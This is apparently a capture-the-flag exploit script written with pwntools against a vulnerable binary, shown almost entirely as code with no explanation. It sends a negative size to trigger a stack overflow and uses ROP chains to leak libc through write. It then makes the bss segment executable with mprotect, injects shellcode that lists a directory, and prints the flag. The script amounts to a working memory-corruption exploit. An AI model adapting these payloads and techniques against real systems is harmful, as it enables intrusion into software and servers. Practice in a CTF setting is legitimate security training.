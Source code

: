 ```plain
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
#p.readuntil(b'\n')
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

rdi=0x0000000000401443
rsi_r15=0x0000000000401441
ret=0x000000000040101a
bss=0x404000
main = 0x401311

write_got = elf.got['write']
write_plt = elf.plt['write']
#1 write(1,write_addr,0x6)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']
syscall = libc_base + libc.sym['syscall']
sys = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
mprotect = libc_base+libc.sym['mprotect']
rdx = libc_base + 0x0000000000142c92
#2 mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#3 read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()

#.4 OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)

p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
```